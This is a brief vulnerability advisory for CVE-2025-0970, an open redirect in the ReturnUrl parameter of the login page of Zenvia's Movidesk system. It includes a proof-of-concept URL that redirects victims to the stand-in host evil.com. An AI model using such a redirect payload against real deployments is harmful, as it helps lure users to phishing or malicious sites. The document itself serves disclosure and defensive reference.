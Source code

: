 # CVE-2025-0970
The Movidesk System by Zenvia is vulnerable to OpenRedirect vulnerability.

## POC

This vulnerability resides in the login page in ReturnUrl parameter,
Its possible to manipulate the parameter to redirect the victim to other source.

Payload example: //evil.com

`https://IP/Account/Login?ReturnUrl=%2f%2fevil.com`

## Reference

https://www.movidesk.com/